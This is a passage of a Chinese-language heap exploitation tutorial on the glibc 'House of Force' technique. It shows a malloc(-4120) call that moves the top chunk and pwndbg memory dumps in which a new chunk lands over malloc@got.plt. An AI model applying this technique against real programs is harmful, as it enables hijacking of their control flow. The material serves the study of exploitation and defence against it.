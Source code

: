 > **32 位系统中，SIZE_SZ 是 4；64 位系统中，SIZE_SZ 是 8**。
>
> malloc(-4112-SIZE_SZ)=malloc(-4112-8)=malloc(-4120)。
>

因此，我们当调用`malloc(-4120)`之后，我们可以观察到 top chunk 被抬高到我们想要的位置。

对代码的第9行下断点，执行代码malloc(-4120);：

```c
-----------------------------
#执行malloc(-4120)前;
pwndbg> top_chunk
Top chunk
Addr: 0x602020
Size: 0x00（这里显示的不准确）
pwndbg> 
-----------------------------
#执行malloc(-4120)后;
pwndbg> top_chunk
Top chunk
Addr: 0x601010
Size: 0x7ffff7deef10
pwndbg> 
-----------------------------
```

```c
pwndbg> x/16gx 0x601000
0x601000:	0x0000000000600e28	0x00007ffff7ffe168
0x601010:	0x00007ffff7deef10	0x0000000000001009 #top_chunk
0x601020:	0x00007ffff7a91180	0x0000000000000000
    		#malloc@got.plt
0x601030:	0x0000000000000000	0x0000000000000000
0x601040:	0x0000000000000000	0x0000000000000000
0x601050:	0x0000000000000000	0x0000000000000000
0x601060:	0x0000000000000000	0x0000000000000000
0x601070:	0x0000000000000000	0x0000000000000000
pwndbg> x/16gx  &main_arena
0x7ffff7dd1b20 <main_arena>:	0x0000000100000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x0000000000601010 #top_chunk
0x7ffff7dd1b80 <main_arena+96>:	0x0000000000000000	0x00007ffff7dd1b78
0x7ffff7dd1b90 <main_arena+112>:	0x00007ffff7dd1b78	0x00007ffff7dd1b88
pwndbg> 
```

最后程序malloc(0x10);之后，就可以控制malloc@got.plt处的地址：

```c
pwndbg> x/16gx 0x601000
0x601000:	0x0000000000600e28	0x00007ffff7ffe168
0x601010:	0x00007ffff7deef10	0x0000000000000021 #new_malloc_chunk
								#malloc之后被修改的地方
0x601020:	0x00007ffff7a91180	0x0000000000000000
    		#malloc@got.plt
0x601030:	0x0000000000000000	0x0000000000000fe9 #top_chunk
0x601040:	0x0000000000000000	0x0000000000000000
0x601050:	0x0000000000000000	0x0000000000000000
0x601060:	0x0000000000000000	0x0000000000000000
0x601070:	0x0000000000000000	0x0000000000000000
pwndbg> 
```
